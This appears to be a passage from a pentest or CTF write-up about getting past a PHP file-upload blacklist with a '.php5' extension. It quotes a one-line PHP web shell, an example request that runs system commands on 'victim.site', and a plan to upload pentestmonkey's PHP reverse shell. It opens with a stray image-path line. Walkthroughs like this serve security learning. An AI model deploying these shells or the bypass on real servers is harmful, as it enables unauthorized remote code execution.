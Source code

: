```php
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
====================  source end  ========================

We can easily bypass file upload restriction on those systems by using an
alternative extension, e.g if we upload sh.php5 on the server:

==================== source start ========================
<?php $_REQUEST['x']($_REQUEST['c']);
====================  source end  ========================

Code can be execute by making a following request:
http://victim.site/storage/app/media/sh.php5?x=system&c=pwd
```

Technically speaking, we should be able to bypass this protection by uploading a `.php5` file.

So let’s grab a PHP reverse shell file from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and save the file as `.php5` extension.
